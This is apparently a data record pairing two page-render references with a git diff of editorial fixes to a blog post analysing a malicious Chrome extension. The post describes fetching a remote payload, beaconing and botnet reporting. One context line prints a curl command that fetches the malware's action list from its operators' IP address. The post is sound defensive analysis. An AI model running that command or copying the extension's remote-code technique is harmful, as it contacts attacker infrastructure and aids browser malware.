

Before and after one commit to MaximeKjaer/kjaer.io, a Jekyll site: the page built from _posts/2016-07-06-extension-malware.md, in a window 1280 px wide and 900 px high, scrolled down 10360 px. Shown: the whole window, without its empty margins (258-1021 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Correct extension malware post slightly before publication

```diff
--- a/_posts/2016-07-06-extension-malware.md
+++ b/_posts/2016-07-06-extension-malware.md
@@ -33,7 +33,7 @@
 	<figcaption>The Chrome extension that I would have to install in order to "verify my age"</figcaption>
 </figure>
 
-The extension is offered by a website called `viralands.com` (not linking to them). A [quick search](https://chrome.google.com/webstore/search/viralands.com?_category=extensions) for their other extensions revealed that they had 9 visibly identical extensions. They've now been removed, but back when I looked at it, those extensions had a total of 132,265 users.
+The extension is allegedly offered by a website called `viralands.com` (not linking to them). A [quick search](https://chrome.google.com/webstore/search/viralands.com?_category=extensions) for their other extensions revealed that they had 9 visibly identical extensions. They've now been removed, but back when I looked at it, those extensions had a total of 132,265 users.
 
 <figure>
 	<img src="/images/chrome-malware/viralands-extensions.png" alt="Screenshot of Viraland's extensions in the Chrome Webstore">
@@ -86,7 +86,7 @@
 }
 {% endhighlight %}
 
-So all in all, it wants to run 3 scripts persistently (meaning that they will continue running once you have closed your browser), while being able to *fetch data from anywhere, store it, and evaluate stored code unsafely*. This isn't boding all too well already. Let's take a look at the three scripts (`background.js`, `query-string.js` and `install.js`) to see if there is any validity to our suspicions.
+So all in all, it wants to run 3 scripts persistently (meaning that they can't be paused), while being able to *fetch data from anywhere, store it, and evaluate stored code unsafely*. This isn't boding all too well already. Let's take a look at the three scripts (`background.js`, `query-string.js` and `install.js`) to see if there is any validity to our suspicions.
 
 ### The age verification is fake
 The `background.js` script is quite short, as it only does one thing: when the extension is installed, it opens a popup. The popup is a simple HTML form where you can enter your birthday and press "Verify". Oh cool, the extension might actually do as advertised!
@@ -114,7 +114,7 @@
 ### Fetching a remote payload
 The `query-string.js` script isn't of much interest, as it's just a copy of [this <abbr title="Node Package Manager">NPM</abbr> package](https://github.com/sindresorhus/query-string).
 
-*But you'll never believe what install.js does! Line 133 will surprise you.* (It hurt me a little bit on the inside to write a sentence like that.)
+*But you'll never believe what install.js does! Line 133 will surprise you* (It hurt me a little bit on the inside to write a sentence like that).
 
 Among the first lines of `install.js` is this eye-striking line:
 
@@ -225,7 +225,7 @@
 curl -o actions.json http://159.203.99.206/api/get/c38ae4ec1d2820bc9e2c03c0fe517585644576c988a03ae84af63b6d2bc9e7
 {% endhighlight %}
 
-This returns a JSON file containing a list of actions that the extension will undertake. Here are the instruction I got:
+This returns a <abbr title="JavaScript Object Notation">JSON</abbr> file containing a list of actions that the extension will undertake. Here are the instruction I got:
 
 {% highlight json linenos %}
 {
@@ -297,8 +297,8 @@
 
 It sends three things back to the server:
 
-1. The <abbr title="Unique Identifier">UID</abbr>, a unique ID string that identifies the infected machine
-2. The extension ID, a string corresponding to the extension that is reporting back (because there are multiple copies of the same extension available in the Chrome Webstore, and the malware operators might need to know which one you have).
+1. The <abbr title="Unique Identifier">UID</abbr>, a unique <abbr title="Identifier">ID</abbr> string that identifies the infected machine
+2. The extension <abbr title="Identifier">ID</abbr>, a string corresponding to the extension that is reporting back (because there are multiple copies of the same extension available in the Chrome Webstore, and the malware operators might need to know which one you have).
 3. Whether the infected machine currently is signed into Facebook
 
 I'm taking it that the malware operators use this information to judge the exact size and activity of their botnet, as these are factors that determine its value on the black market.
@@ -306,7 +306,7 @@
 ### And potentially much more
 The extension is always on the lookout for a new version of the payload. Though I haven't witnessed it change, it could very well evolve and gain new capabilities.
 
-Since the malware has permission to "read and change all your data on the websites you visit", its operators could gain total control over everything that happens in your browser. They could potentially read your emails, steal all your login credentials, have you DDoS someone, mine Bitcoin, seed pirated content... You name it. That even includes reading and leaking your credit card information, if you ever are to type that in. I find it rather chilling that a simple extension could gain so much information.
+Since the malware has permission to "read and change all your data on the websites you visit", its operators could gain total control over everything that happens in your browser. They could potentially read your emails, steal all your login credentials, have you DDoS someone, mine Bitcoin, seed pirated content... You name it. That even includes reading and leaking your credit card information, if you ever are to type that in.
 
 Your local files are off-limit though, if that's of any consolation. Hurray, right?
 
```
